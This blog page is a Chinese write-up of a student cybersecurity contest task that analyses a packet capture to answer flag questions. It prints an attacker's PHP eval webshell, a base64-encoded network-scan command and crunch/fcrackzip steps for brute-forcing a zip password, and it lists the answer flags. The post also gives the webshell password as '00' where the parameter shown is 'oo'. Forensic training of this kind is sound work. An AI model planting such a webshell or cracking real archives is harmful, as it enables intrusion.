<!DOCTYPE html>
<html lang="zh-CN">
    <head>
  <!-- 元数据 -->
  <meta charset="utf-8">
  <link rel="icon" href="/images/ns.jpg">
  <title>中职网络空间安全 数据分析-A | 心中无女人</title>
  <meta name="author" content="black" />
  <meta http-equiv="Cache-Control" content="no-transform" />
  <meta http-equiv="Cache-Control" content="no-siteapp" />
  <meta http-equiv="X-UA-Compatible" content="IE=edge" />
  <meta name="robots" content="index,follow" />
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1" />
  <meta name="format-detection" content="telphone=no, email=no" />
  
    <meta name="keywords" content="" />
  
  <meta name="description" content="想要数据包的话可以加我QQ,QQ号在主页下面是有的数据分析-A渗透机场景:windows 7渗透机用户名:adminintrator 密码:123456 1.通过分析windows7桌面上的数据包A.pcapng，找到黑客连接一句话木马的密码,将该密码作为FLAG提交;过滤http,往下找到含有两个POST请求并列的就是 点击进去一句话木马为  Form item: “oo” &#x3D; “@eval(">
<meta property="og:type" content="article">
<meta property="og:title" content="中职网络空间安全 数据分析-A">
<meta property="og:url" content="https://yueyuelovexingxing.github.io/2021/04/13/%E4%B8%AD%E8%81%8C%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8-%E6%95%B0%E6%8D%AE%E5%88%86%E6%9E%90-A/index.html">
<meta property="og:site_name" content="心中无女人">
<meta property="og:description" content="想要数据包的话可以加我QQ,QQ号在主页下面是有的数据分析-A渗透机场景:windows 7渗透机用户名:adminintrator 密码:123456 1.通过分析windows7桌面上的数据包A.pcapng，找到黑客连接一句话木马的密码,将该密码作为FLAG提交;过滤http,往下找到含有两个POST请求并列的就是 点击进去一句话木马为  Form item: “oo” &#x3D; “@eval(">
<meta property="og:locale" content="zh_CN">
<meta property="og:image" content="https://yueyuelovexingxing.github.io/images/ns.jpg">
<meta property="article:published_time" content="2021-04-13T00:15:44.000Z">
<meta property="article:modified_time" content="2021-04-14T11:22:42.736Z">
<meta property="article:author" content="black">
<meta name="twitter:card" content="summary">
<meta name="twitter:image" content="https://yueyuelovexingxing.github.io/images/ns.jpg">
<meta name="twitter:site" content="@null">
  
  <!-- 站点验证相关 -->
  
    
    
    
  
  <!-- 样式表文件 -->
  <link rel="stylesheet" id="kratos-css" href="/css/kratosr.min.css" type="text/css" media="all">
  
  
  <link rel="stylesheet" id="fontawe-css" href="https://cdn.jsdelivr.net/npm/font-awesome@4.7.0/css/font-awesome.min.css" type="text/css" media="all">
  <link rel="stylesheet" id="nprogress-css" href="https://cdn.jsdelivr.net/npm/nprogress@0.2.0/nprogress.min.css" type="text/css" media="all">
  
  
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/aplayer@1.10.1/dist/APlayer.min.css">
  
  
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/gh/fancyapps/fancybox@3.5.7/dist/jquery.fancybox.min.css">
  
  
    <link rel="stylesheet" id="darkmode-css" href="/css/kr-dark.min.css" type="text/css" media="all">
  
  <!-- 不得不预先加载的一些JS文件 -->
  <script src="https://cdn.jsdelivr.net/npm/jquery@3.6.0/dist/jquery.min.js"></script>
  
    <script src="https://cdn.jsdelivr.net/npm/qrcode_js@1.0.0/qrcode.min.js"></script>
  
  
  <style>
    
      .kratos-cover.kratos-cover-2 {
        background-image: url('/images/999.gif');
      }
    
    
      @media(min-width:768px) {
        body.custom-background {
          background-image: url('/images/2047714.jpg');
        }
      }
    
  </style>
  
<meta name="generator" content="Hexo 5.4.0"><link rel="stylesheet" href="/css/prism-tomorrow.css" type="text/css"></head>


    <body class="custom-background">
        <div id="kratos-wrapper">
    <div id="kratos-page">
        <div id="kratos-header">
            <header id="kratos-desktop-topnav" class="kratos-topnav">
                <div class="container">
                    <div class="nav-header">
                        <nav id="kratos-menu-wrap">
                            <ul id="kratos-primary-menu" class="sf-menu">
                                
                                    
                                        <li><a href="/"><i class="fa fa-home"></i>首页</a></li>
                                    
                                
                                    
                                        <li><a href="/archives/"><i class="fa fa-file"></i>档案馆</a></li>
                                    
                                
                                    
                                        <li><a href="/friends/"><i class="fa fa-paw"></i>好伙伴</a></li>
                                    
                                
                                    
                                        <li><a href="/about/"><i class="fa fa-user-circle"></i>关于我</a></li>
                                    
                                
                                    
                                        <li><a href="/guestbook/"><i class="fa fa-book"></i>留言版</a></li>
                                    
                                
                                    
                                        <li>
                                            <a><i class="fa fa-link"></i>链接</a>
                                            <ul class="sub-menu">
                                                
                                                    
                                                
                                                    
                                                        <li><a href="/links/">作者分站</a></li>
                                                    
                                                
                                                    
                                                        <li><a href="/boke/">项目链接</a></li>
                                                    
                                                
                                            </ul>
                                        </li>
                                    
                                
                            </ul>
                        </nav>
                    </div>
                </div>
            </header>
            <header id="kratos-mobile-topnav" class="kratos-topnav">
                <div class="container">
                    <div class="color-logo"><a href="/">心中无女人</a></div>
                    <div class="nav-toggle">
                        <a class="kratos-nav-toggle js-kratos-nav-toggle">
                            <i></i>
                        </a>
                    </div>
                </div>
            </header>
        </div>
        <div class="kratos-start kratos-hero-2">
            <!-- <div class="kratos-overlay"></div> -->
            <div class="kratos-cover kratos-cover-2 text-center">
                <div class="desc desc2 animate-box">
                    <a href="/">
                        <h2>心中无女人</h2> <br />
                        <span>代码自然神</span>
                    </a>
                </div>
            </div>
        </div>

        <div id="kratos-blog-post">
            <div class="container">
                <div id="main" class="row">
                    

        

            <section class="col-md-8">

        

            <article>
    <div class="kratos-hentry kratos-post-inner clearfix">
        <header class="kratos-entry-header">
            
                <h1 class="kratos-entry-title text-center">中职网络空间安全 数据分析-A</h1>
            
            
            <ul class="kratos-post-meta text-center">
                <li><i class="fa fa-calendar"></i> 2021-04-13</li>
                <li><i class="fa fa-user"></i> 作者 black</li>
                <li>
                    <i class="fa fa-edit"></i> 
                    
                    
                        1226
                    
                    字
                </li>
                
                    <li id="/2021/04/13/%E4%B8%AD%E8%81%8C%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8-%E6%95%B0%E6%8D%AE%E5%88%86%E6%9E%90-A/" class="leancloud_visitors" data-flag-title="中职网络空间安全 数据分析-A">
                        <i class="fa fa-eye"></i>
                        <span class="leancloud-visitors-count"> </span> 次阅读
                    </li>
                    
                
            </ul>
        </header>
        <div class="kratos-post-content">
            <div id="expire-alert" class="alert alert-warning hidden" role="alert">
                本文最后编辑于 <time datetime="1618399362736"></time> 前，其中的内容可能需要更新。
            </div>
            
            <hr />
            <p><strong>想要数据包的话可以加我QQ,QQ号在主页下面是有的</strong><br><strong>数据分析-A</strong><br>渗透机场景:windows 7<br>渗透机用户名:adminintrator 密码:123456</p>
<p>1.通过分析windows7桌面上的数据包A.pcapng，找到黑客连接一句话木马的密码,将该密码作为FLAG提交;<br>过滤http,往下找到含有两个POST请求并列的就是 点击进去一句话木马为  <strong>Form item: “oo” = “@eval(base64_decode($_POST[z0]));”</strong><br><strong>00 为密码</strong><br>  </p>
<p>2.通过分析数据包A.pcapng，找到黑客扫描的网段范围是多少（IP之间用”,”隔开，例：192.168.1.1-192.168.1.2）将该范围作为FLAG提交；<br><strong>接着上面一题 往下找到    Form item: “z2” = “Y2QgL2QgIkM6XHBocFN0dWR5XFdXV1wiJnN0YXJ0IC9iIHB5dGhvbiBSQVNzY2FuLnB5IDE5Mi4xNjguMTAuMTAgMTkyLjE2OC4xMC4zMCAtdCAyMCZlY2hvIFtTXSZjZCZlY2hvIFtFXQ==”</strong><br><br><strong>把Value后面的复制下来</strong><br><br><strong>到终端利用base64 -d 解密方法   进行解密</strong><br><br>3.通过分析数据包A.pcapng，找到域服务器的密码是多少，将该密码作为FLAG提交;<br><strong>导出http文件</strong><br><br><br><strong>随便选择一个文件导入进去即可</strong><br><br><strong>点开导入的文件夹进去找</strong><br><strong>找到了aaaa(34).php这个文件</strong><br><br><strong>密码为163.com</strong><br>4.通过分析数据包A.pcapng，找到服务器安装的第一个修补程序，将该修补程序的名称作为FLAG提交;<br><strong>接着上一题  找到了aaaa(11).php文件  修补程序就在  将第一个修补的程序名称提交就行  KB2534111</strong><br></p>
<p>5.通过分析数据包A.pcapng，找到黑客下载的文件是什么，将该文件内容作为FLAG提交；<br><strong>在kali中  找到binwalk这个工具    使用命令</strong><br><strong>binwalk -e 后面加数据包的名称</strong>    <strong>#找到数据包A.pcapng的位置    将数据包拖到终端</strong><br><br><strong>完成之后会在你数据包的目录下生成一个 A.pcapng.extracted的文件夹</strong><br><br><br><strong>没想到的是flag.zip需要密码</strong><br><br><strong>找到了一些信息</strong><br><strong>前四位密码是DBOQ，后四位是随机组成的数字</strong><br><br><strong>利用kali的工具 crunch 生成字典</strong><br><strong>crunch 8 8 -t DBOQ%%%% &gt;&gt;3.txt      #8 8 的意思是8位 -t的意思是指定什么模式 %%%%为数字 &gt;&gt;3.txt放到3.txt文件里面</strong><br><br><br><strong>然后利用fcrackzip这个工具   #我的2019年的kali上面是没有的 我又从新下载的</strong><br><br><strong>-D的意思是要使用字典破解</strong><br><strong>-p的意思是表示要使用那个字典破解</strong><br><strong>5.txt为字典</strong><br><strong>-u的意思是指定爆破的压缩包</strong><br><strong>得到密码为DBOQ6457</strong><br><strong>输入进入   得到flag{friday}</strong><br></p>

        </div>
        
            <div class="kratos-copyright text-center clearfix">
                <h5>本作品采用 <a rel="license nofollow" target="_blank" href="https://creativecommons.org/licenses/by-sa/4.0/">知识共享署名-相同方式共享 4.0 国际许可协议</a> 进行许可</h5>
            </div>
        
        <footer class="kratos-entry-footer clearfix">
            
                <div class="post-like-donate text-center clearfix" id="post-like-donate">
                
                    <a class="donate" href="javascript:;"><i class="fa fa-bitcoin"></i> 打赏</a>
                
                
                    <a class="share" href="javascript:;"><i class="fa fa-share-alt"></i> 分享</a>
                    <div class="share-wrap" style="display: none;">
    <div class="share-group">
        <a href="javascript:;" class="share-plain qq" onclick="share('qq');" rel="nofollow">
            <div class="icon-wrap">
                <i class="fa fa-qq"></i>
            </div>
        </a>
        <a href="javascript:;" class="share-plain qzone" onclick="share('qzone');" rel="nofollow">
            <div class="icon-wrap">
                <i class="fa fa-star"></i>
            </div>
        </a>
        <a href="javascript:;" class="share-plain weixin pop style-plain" rel="nofollow">
            <div class="icon-wrap">
                <i class="fa fa-weixin"></i>
            </div>
            <div class="share-int">
                <div class="qrcode" id="wechat-qr"></div>
                <p>打开微信“扫一扫”，打开网页后点击屏幕右上角分享按钮</p>
            </div>
        </a>
        <a href="javascript:;" class="share-plain weibo" onclick="share('weibo');" rel="nofollow">
            <div class="icon-wrap">
                <i class="fa fa-weibo"></i>
            </div>
        </a>
        <a href="javascript:;" class="share-plain facebook style-plain" onclick="share('facebook');" rel="nofollow">
            <div class="icon-wrap">
                <i class="fa fa-facebook"></i>
            </div>
        </a>
        <a href="javascript:;" class="share-plain twitter style-plain" onclick="share('twitter');" rel="nofollow">
            <div class="icon-wrap">
                <i class="fa fa-twitter"></i>
            </div>
        </a>
    </div>
    <script type="text/javascript">
        $(()=>{
            new QRCode("wechat-qr", {
                text: "https://yueyuelovexingxing.github.io/2021/04/13/%E4%B8%AD%E8%81%8C%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8-%E6%95%B0%E6%8D%AE%E5%88%86%E6%9E%90-A/",
                width: 150,
                height: 150,
                correctLevel : QRCode.CorrectLevel.H
            });
        });
        function share(dest) {
            const qqBase        = "https://connect.qq.com/widget/shareqq/index.html?";
            const weiboBase     = "https://service.weibo.com/share/share.php?";
            const qzoneBase     = "https://sns.qzone.qq.com/cgi-bin/qzshare/cgi_qzshare_onekey?";
            const facebookBase  = "https://www.facebook.com/sharer/sharer.php?";
            const twitterBase   = "https://twitter.com/intent/tweet?";
            const hostUrl       = "https://yueyuelovexingxing.github.io/2021/04/13/%E4%B8%AD%E8%81%8C%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8-%E6%95%B0%E6%8D%AE%E5%88%86%E6%9E%90-A/";
            const title         = "「中职网络空间安全 数据分析-A」";
            const excerpt       = `想要数据包的话可以加我QQ,QQ号在主页下面是有的数据分析-A渗透机场景:windows 7渗透机用户名:adminintrator 密码:123456
1.通过分析windows7桌面上的数据包A.pcapng，找到黑客连接一句话木...`;
            let _URL;
            switch (dest) {
                case "qq"       : _URL = qqBase+"url="+hostUrl+"&title="+title+"&desc=&summary="+excerpt+"&site=cxpy";     break;
                case "weibo"    : _URL = weiboBase+"url="+hostUrl+"&title="+title+excerpt;                                 break;
                case "qzone"    : _URL = qzoneBase+"url="+hostUrl+"&title="+title+"&desc=&summary="+excerpt+"&site=cxpy";  break;
                case "facebook" : _URL = facebookBase+"u="+hostUrl;                                                        break;
                case "twitter"  : _URL = twitterBase+"text="+title+excerpt+"&url="+hostUrl;                                break;
            }
            window.open(_URL);
        };
    </script>
</div>
                
                </div>
            
            <div class="footer-tag clearfix">
                <div class="pull-left">
                <i class="fa fa-tags"></i>
                    
                </div>
                <div class="pull-date">
                <span>最后编辑：2021-04-14</span>
                </div>
            </div>
        </footer>
    </div>
    
        <nav class="navigation post-navigation clearfix" role="navigation">
            
            <div class="nav-previous clearfix">
                <a title=" 渗透进入win7,利用mimikatz破解密码" href="/2021/04/12/渗透进入win7-利用mimikatz破解密码/">&lt; 上一篇</a>
            </div>
            
            
            <div class="nav-next clearfix">
                <a title=" linux笑脸漏洞" href="/2021/04/13/linux笑脸漏洞/">下一篇 &gt;</a>
            </div>
            
        </nav>
    
    
        <div id="v-comments" class="post-comments"></div>
<script>
    var load_comm = () => {
        const init = () => {
            new Valine({
                el: '#v-comments',
                appId: 'GTRbdDn8kb3aGj2WuGDlsCzD-gzGzoHsz',
                appKey: 't8ml0wW6SGgyl8I1vl1Oi9wO',
                visitor: true,
                enableQQ: true,
                path: '/2021/04/13/%E4%B8%AD%E8%81%8C%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8-%E6%95%B0%E6%8D%AE%E5%88%86%E6%9E%90-A/'
            });
        }
        if (typeof Valine == 'undefined') {
            const src = 'https://cdn.jsdelivr.net/npm/valine@1.4.14/dist/Valine.min.js';
            $.getScript(src, init);
        } else {
            init();
        }
    };
</script>
<noscript>Please enable JavaScript to view the <a target="_blank" rel="noopener" href="https://valine.js.org/">comments powered by Valine.</a></noscript>

    
</article>

        

            </section>

        

                
            

<section id="kratos-widget-area" class="col-md-4 hidden-xs hidden-sm">
    <!-- 文章和页面根据splitter来分割，没有的话就从头开始设置为sticky -->
    
    
                <aside id="krw-about" class="widget widget-kratos-about clearfix">
    <div class="photo-background"></div>
    <div class="photo-wrapper clearfix">
        <div class="photo-wrapper-tip text-center">
            
        </div>
    </div>
    <div class="textwidget">
        <p class="text-center"></p>
    </div>
</aside>
            
                    <div class="sticky-area">
                
                

            
                
            
                
  <aside id="krw-posts" class="widget widget-kratos-posts">
  <h4 class="widget-title"><i class="fa fa-file"></i>最新文章</h4>
  <div class="tab-content">
      <ul class="list-group">
        
        
          
          
            <a class="list-group-item" href="/2022/09/22/%E6%BC%8F%E6%B4%9E10%E5%A4%A7%E6%8E%92%E8%A1%8C%E6%A6%9C/"><i class="fa  fa-book"></i> 漏洞10大排行榜</a>
            
          
        
          
          
        
          
          
            <a class="list-group-item" href="/2022/01/02/%E5%85%A8%E7%8F%AD%E7%A6%8F/"><i class="fa  fa-book"></i> 全班福</a>
            
          
        
          
          
            <a class="list-group-item" href="/2021/12/19/%E7%99%BE%E4%BA%BF%E8%A1%A5%E8%B4%B4YYDS/"><i class="fa  fa-book"></i> 百亿补贴YYDS</a>
            
          
        
          
          
            <a class="list-group-item" href="/2021/10/08/%E8%BF%9F%E6%9D%A5%E7%9A%84%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0/"><i class="fa  fa-book"></i> 迟来的一篇文章</a>
            
          
        
          
          
            <a class="list-group-item" href="/2021/09/03/%E4%B8%AD%E8%81%8C%E7%B1%BB%E5%9B%BD%E8%B5%9B%E6%A8%A1%E5%9D%97A%E7%9A%84%E9%A2%98-2/"><i class="fa  fa-book"></i> 中职类国赛模块A的题(2)</a>
            
          
        
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
          
            
      </ul>
  </div>
  </aside>

            
    </div>
</section>
        
        </div>
    </div>
</div>
<footer>
    <div id="footer"  class="ap-lrc"  >
        <div class="kr-tool text-center">
            <div class="tool">
                
                    <div class="box search-box">
                        <a href="/search/">
                            <span class="fa fa-search"></span>
                        </a>
                    </div>
                
                
                    <div class="box theme-box" id="darkmode-switch">
                        <span class="fa fa-adjust"></span>
                    </div>
                
                
            </div>
            <div class="box gotop-box">
                <span class="fa fa-chevron-up"></span>
            </div>
        </div>
        <div class="container">
            <div class="row">
                <div class="col-md-6 col-md-offset-3 footer-list text-center">
                    <ul class="kratos-social-icons">
                        
                        <li><a href="mailto:2632878683@qq.com"><i class="fa fa-envelope"></i></a></li>
                        <li><a target="_blank" rel="nofollow" href="https://t.me/CandyUnion"><i class="fa fa-telegram"></i></a></li>
                        
                        
                        
                        <li><a target="_blank" rel="me" href="https://nya.one/@月月"><i class="fa fa fa-share-alt-square"></i></a></li>
                        <li><a target="_blank" rel="nofollow" href="https://github.com/yueyuelovexingxing"><i class="fa fa-github"></i></a></li>
                        
                    </ul>
                    <ul class="kratos-copyright">
                        <div>
                            <li>&copy; 2023 心中无女人 版权所有.</li>
                            <li>本站已运行<span id="span_dt">Loading...</span></li>
                        </div>
                        <div>
                            <li>Theme <a href="https://github.com/Candinya/Kratos-Rebirth" target="_blank">Kratos:Rebirth</a></li>
                            <li>Site built with&nbsp;<i class="fa fa-heart throb" style="color:#d43f57"></i>&nbsp;by black.</li>
                        </div>
                        <div>
                            <li>Powered by <a href="https://hexo.io" target="_blank" rel="nofollow">Hexo</a></li>
                            <li>Hosted on <a href="https://github.io" target="_blank">Github Pages</a></li>
                        </div>
                        <div>
                            
                            
                        </div>
                    </ul>
                </div>
            </div>
        </div>
    </div>
</footer>
</div>
</div>

        <script defer src="https://cdn.jsdelivr.net/npm/bootstrap@3.3.4/dist/js/bootstrap.min.js"></script>
<script defer src="https://cdn.jsdelivr.net/npm/nprogress@0.2.0/nprogress.js"></script>
<script>
    if (!window.kr) {
        window.kr = {};
    }
    window.kr.notMobile = (!(navigator.userAgent.match(/(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i)));
    window.kr.siteRoot = "/";
</script>


    <script async src="/js/candy.min.js"></script>


    <script defer src="https://cdn.jsdelivr.net/npm/aplayer@1.10.1/dist/APlayer.min.js"></script>
    
    <script defer src="https://cdn.jsdelivr.net/npm/meting@2/dist/Meting.min.js"></script>
    <meting-js
        server="netease"
        type="playlist"
        id="6623439079"
        order="random"
        fixed="true"
    >
    </meting-js>


    <script defer src="https://cdn.jsdelivr.net/gh/fancyapps/fancybox@3.5.7/dist/jquery.fancybox.min.js"></script>

<script defer src="https://cdn.jsdelivr.net/npm/clipboard@2.0.6/dist/clipboard.min.js"></script>
<script defer src="/js/kratosr.min.js"></script>
<script defer src="/js/pjax.min.js"></script>

    <script defer src="https://cdn.jsdelivr.net/npm/layui-src@2.5.5/dist/layui.all.js"></script>


    <script defer src="/js/kr-dark.min.js"></script>


<!-- Extra support for third-party plguins  -->


    </body>
</html>